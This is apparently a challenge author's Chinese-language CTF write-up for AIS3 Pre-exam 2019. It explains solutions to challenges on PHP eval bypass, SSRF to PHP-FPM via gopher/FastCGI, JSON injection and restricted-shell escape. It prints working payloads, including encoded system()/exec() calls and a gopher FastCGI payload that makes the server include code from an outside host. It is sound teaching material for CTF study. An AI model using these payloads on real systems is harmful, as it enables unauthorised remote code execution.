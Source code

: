 # AIS3 Pre-exam 2019

佛系出題，每題都不擋非預期，每題都有多種簡單解法

## Web

### Simple Window

- **Solved**: 316
- 預期難度: ☆ ~ ★

<br>

- 訪問`/`時會安裝 Service Worker
- 然後把`/flag` cache成別的頁面
- 把Service Worker取消或是關掉js就可
- 或是在第一次安裝時，它其實會去fetch `/flag`內容，你只要這時候抓這個response就行

### 3v4l

- **Solved**: 28
- 預期難度: ★★ ~ ★★★

<br>

- 這題會把`$_GET["#"]`丟進`eval`跑
    - 瀏覽器送記得urlencode一下
    - `#` => `%23`
- 限制長度不能超過 18

- 解法一 (預期解)
    - PHP的`NOT`運算
    - `~%8C%86%8C%8B%9A%92` = `system`
    - `~%93%8C%DF%D0` = `ls /`
    - 組合起來: `(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`
        - 就等於`system("ls /");`
        - 這邊可以得到flag name: `here_is_your_flag`
    - 最後去讀 flag:
        - `(~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%97%D5);`
        - `exec("cat /h*");`

- 解法二
    - 忘記擋 ``` `` ``` 和 `?`
    - 直接``` `/???/??? /*`;  ```
    - 相當於``` `/bin/cat /*`; ```

- 解法三
    - ``` `\\143\\141\\164%20/*`; ```
    - 等同``` `cat /*`; ```

- 解法四
    - 來自 @cyku 大佬 
    - ``` `{${~%A0%B8%BA%AB}[0]}`; ```
    - `~%A0%B8%BA%AB` =  `_GET`
    - 把`$_GET[0]`拿去執行
    - 完整getshell

### BabySSRF 

- **Solved**: 3
- 預期難度: ★★★ ~ ★★★★

<br>

- 這題很單純把輸入的URL拿去curl跑
- 然後擋掉`file:`, `ftp:`, `flag`, `index.php`, metadata等關鍵字
    - `gopher://`沒擋
    - 可以任意 SSRF 構造 TCP packet
- 從`/robots.txt`可以找到`info.php`
    - 單純 `phpinfo`
    - 這邊就暗示後端是用 PHP-FPM 跑的

- 所以目標很明確，就是構造 FastCGI Protocol 去 RCE
    - 但限制長度只能 `236 Bytes`

- 構造 FastCGI Protocol 很容易，網路上隨便找都有 Payload generator
    - 但長度一般都很長，必須想辦法壓下來

- 壓 Payload 長度
    - `127.0.0.1` 可以換成 `0`
    - urlencode處理好 (只有 NULL Byte 和換行需要Double encode)
    - 大部分 Params 都能拔掉
        - 重要的只有`REQUEST_METHOD`和`PHP_VALUE`
        - 如果要在單個Request就執行`prepend_file`的話，要加`SCRIPT_FILENAME`
        - 多個Request的話，可以拔掉`SCRIPT_FILENAME`，先把設定寫進去
            - 譴責這種解法
            - 需要一直狂送 Payload
            - 會把全部 fpm process 設定寫掉，影響別人解題
    - 買個短一點的 domain (X
        - 看看某海狗長度5的domain (貧窮限制了我的想像力)
    - 剩下就慢慢看 FastCGI 結構去優化

- 範例 Payload:
    - `gopher://0:9000/_%01%01%2500%01%2500%08%2500%2500%2500%01%2500%2500%2500%2500%2500%2500%01%04%2500%01%2500%7F%2500%2500%0E%03REQUEST_METHODGET%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Finfo.php%09%3APHP_VALUEallow_url_include%3DOn%250Aauto_prepend_file%3Dhttp%3A%2F%2Fkaibro.tw%01%04%2500%01%2500%2500%2500%2500%01%05%2500%01%2500%2500%2500%2500`
    - 打開`allow_url_include`
    - 設定`auto_prepend_file=http://kaibro.tw`

- RCE之後，`/readflag`會生兩個 random integer 要你相加，答案對才噴 flag
    - 但 timeout 只有 1 秒
    - 除非你心算和手速異於常人，不然應該沒辦法手算
    - 這邊我的解法: `mkfifo pipe; cat pipe | /readflag |(read l;echo "$((${l::11}))\n" > pipe;cat)`

## Misc

### Are you admin ?

- **Solved**: 181
- 預期難度: ★★ ~ ★★☆ 

<br>

- 這題會去用JSON parse一個字串
- 字串前後的`name`和`age`都可控
    - age不能用英文字
    - 但非英文都可 (包含特殊符號)
- 中間有一個`"is_admin":"no"`
- 目標是把 parse 完的`is_admin`蓋成`yes`

- 解法一 (預期解)
    - Ruby json 可以用註解
    - name: `","is_admin":"yes",/*`
    - age: `*/"@":"@`
- 解法二
    - 用`{}`去包`is_admin`
    - name: `","is_admin":"yes","x":{"":"`
    - age: `"},"":"`

### Pysh

- **Solved**: 64
- 預期難度: ★★ ~ ★★★

<br>

- 這題限制你不能用大部分小寫英文和一堆特殊符號
- 目標是想辦法用剩下的字元去 RCE

- 解法一 (預期解)
    - `read`預設結果會存放到`$REPLY`
    - 所以`read;$REPLY`就能RCE
    - 也能`read a;$a`
- 解法二
    - `$SHELL`
    - 最多人用
- 解法三
    - `$BASH`
- 解法四
    - ``` a=`pr -T`;$a ```


----

p.s. 如果有人有其他解法歡迎發PR給我 <3
